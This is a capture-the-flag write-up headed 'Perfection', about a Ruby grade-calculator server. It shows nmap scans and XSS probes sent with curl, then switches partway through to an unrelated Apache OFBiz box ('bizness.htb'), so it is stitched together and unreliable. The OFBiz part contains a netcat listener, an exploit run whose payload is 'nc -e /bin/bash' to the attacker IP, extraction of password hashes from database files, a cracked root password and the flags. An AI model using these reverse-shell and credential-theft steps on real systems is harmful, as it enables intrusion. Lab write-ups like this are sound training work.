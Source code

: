 = Perfection

Author:: 0x42697262
Category:: Linux
Difficulty:: Easy
Play Date:: 2024/05/20 - 2024/06/19

== Introduction

A vulnerable Ruby web server hosted on Linux.

== Methodology

. Scan the web server ``10.10.11.253`` for open ports.
. Find potential vulnerabilities.

=== NMAP

Scan with nmap

----
$ nmap -sS -sV -sC -O -oN perfection.txt 10.10.11.253

Nmap scan report for 10.10.11.253
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0) <.>
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx <.>
|_http-title: Weighted Grade Calculator
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=5/20%OT=22%CT=1%CU=35182%PV=Y%DS=2%DC=I%G=Y%TM=664B539
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M537ST11NW7%O2=M537ST11NW7%O3=M537NNT11NW7%O4=M537ST11NW7%O5=M537ST1
OS:1NW7%O6=M537ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
----
<.> SSH Port Open
<.> HTTP Port Open

*OpenSSH 8.9p1* doesn't seem to have any obvious vulnerabilities.
I looked through Metasploit to see if there are any exploits for that version.
I found nothing usable as of my knowledge.

However, browsing the web server might give more clues.

=== Ruby Web Server

Opening ``http://10.10.11.253:80/`` returns the home page.

.Weighted Grade Calculator Home Page
image::perfection/web-home.png[]

While reading the web server, it appears that the web server were made by security students who are probably inexperienced.
So, I went and checked their web app.

.Weighted Grade Calculator Web App
image::perfection/web-calc.png[]

There were inputs.
Bingo!
One should not easily assume it's vulnerable but I can always test it.

Thus, I tried to use the web app normally.
It worked as expected.
However, the web app doesn't make a POST request if the categories are not completely filled.
The sum of the *Weight (%)* must all equal to *100%*.

.Basic Input
image::perfection/input1.png[]

Since this is a web application, the next thing I wanted to see is the *request* and *response* of the web app.
It returns a response of JSON data.

.Basic Input Log
image::perfection/result1.png[]

But it appears that the values are placed directly on the page.
Should I try doing XSS?
Will there be input sanitization?
What's the point of XSS anyway?
Okay, if not XSS, then some sort of injection can be used, right?

.Result HTML Source
image::perfection/result-html-source.png[]

But since I didn't wanna keep typing the inputs into the form, I copied the POST request as cURL command.

----
$ curl 'http://10.10.11.253/weighted-grade-calc' --data-raw 'category1=a&grade1=10&weight1=10&category2=b&grade2=10&weight2=20&category3=c&grade3=10&weight3=30&category4=d&grade4=10&weight4=30&category5=e&grade5=10&weight5=10' | grep -E "Your total grade is|Malicious input blocked"

Your total grade is 10%<p>a: 1%</p><p>b: 2%</p><p>c: 3%</p><p>d: 3%</p><p>e: 1%</p>
----

I added some grep commands to only output what I needed.

.cURL Command
image::perfection/curl-base.png[]

The command is too long, I tried trimming it down to one category but this just results in ``Malicious input blocked``.
Something not what I want.

I tried changing one of the category values into ``<script>alert(1);</script>``.
That didn't work.

----
$ curl 'http://10.10.11.253/weighted-grade-calc' --data-raw 'category1=<script>alert(1);</script>&grade1=10&weight1=10&category2=b&grade2=10&weight2=20&category3=c&grade3=10&weight3=30&category4=d&grade4=10&weight4=30&category5=e&grade5=10&weight5=10' | grep -E "Your total grade is|Malicious input blocked"

Malicious input blocked
----

I kept wondering why it wouldn't work.
Then I realized that web browsers tends to encode the data of the request body.
Thus, I tried doing that.

----
$ curl 'http://10.10.11.253/weighted-grade-calc' --data-raw 'category1=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E&grade1=10&weight1=10&category2=b&grade2=10&weight2=20&category3=c&grade3=10&weight3=30&category4=d&grade4=10&weight4=30&category5=e&grade5=10&weight5=10' | grep -E "Your total grade is|Malicious input blocked"

Malicious input blocked
----

But oh well, the same exact result.
Bummer.

I tried using the symbols ``( ) < > ; [ ] { }`` individually yet it still resulted the same error.

I didn't know what kind of web server I am dealing with, I wanted to know what framework is used as backend.
Turns out the answer was at the bottom of the website: ``WEBrick 1.7.0``.
This is a *Ruby HTTP server toolkit*.
Now, that's a progress.

I looked for exploits related to version *1.7.0* but the results on the web shows different versions and old as well.


=== Exploitation

First create a connection for the reverse shell to connect to

----
$ nc -lvnp 6969 <.>
----
<.> Pick any port you like

Then execute the exploit downloaded on another terminal

----
$ python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.20 6969' <.>
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
----
<.> Make sure to point the server to your machine's IP address

On the netcat terminal, this should be printed on the screen

----
listening on [any] 6969 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.252] 49924
----

And we're in!

That can be verified with these commands

----
$ whoami
ofbiz
$pwd
/opt/ofbiz
----

== Finding The Flag

The current directory apparently have tons of files and it would be difficult to find the root flag.

Finding the user flag is quite easy, simply print it out

----
$ cat ~/user.txt
2ecc953f42e90c7a284fcab56f26867e
----

As for the root flag, it's located in ``/root/root.txt`` however the current user (ofbiz) does not have permissions to read, write, and execute on that directory.

It's painful to dumpster dive the password of the root user.
It's not located in the Dockerfile nor in the configurations.

There is however an encrypted password in the file ``/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml``.

[, xml]
----
$ cat AdminUserLoginData.xml

<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/> <.>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
----
<.> This line contains a SHA password.

However, I do not see any use or a way to crack the password.

Upon further reading about Apache's OFBiz, the password is stored as plaintext as SHA hash somewhere in the ``./runtime/data`` directory.

Since I am lazy, I proceeded to simply print the strings of each and every file that contains a *SHA*.

----
$ cd ./runtime/data/derby/ofbiz/seg0
$ strings * | grep SHA

SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I <.>

----
<.> We found are root password hashed with SHA.

== Cracking the Root Flag

Certainly, I can code my own tool for cracking the hashed password using a wordlist dictionary but someone else have already created that tool for us to use.
Can be accessed https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker[here].

I used *rockyou.txt* as my wordlist.

After cracking the SHA hash, we should now acquire the password.

----
monkeybizness
----

== Get Root Flag

Login with root

----
$ su
Password: monkeybizness
----

Check if we truly are root

----
# whoami
root
----

Acquire the root flag

----
# cat /root/root.txt
628643013da646b11a7f82adfd4f1b12
----

== Challenge Summaries

Extract the archive with ``tar``

Use an existing tool to exploit Apache's OFBiz 18.12

----
$ python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.20 6969' <.>
----

Get the user flag

----
$ cat ~/user.txt
2ecc953f42e90c7a284fcab56f26867e
----

Crack the SHA hash then get the root flag

----
$ cd ./runtime/data/derby/ofbiz/seg0
$ strings * | grep SHA

SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I <.>
----

----
$ su
Password: monkeybizness
----

----
# cat /root/root.txt
628643013da646b11a7f82adfd4f1b12
----

== Lessons Learned

. Apache's OFBiz
. Searching for existing exploits

== Conclusion

Not a fun challenge when you have to search the files one by one when you do not have experience with OFBiz.
I don't wanna do this shit again.

[IMPORTANT] 
.Flag
==== 
user:2ecc953f42e90c7a284fcab56f26867e

root:628643013da646b11a7f82adfd4f1b12
====
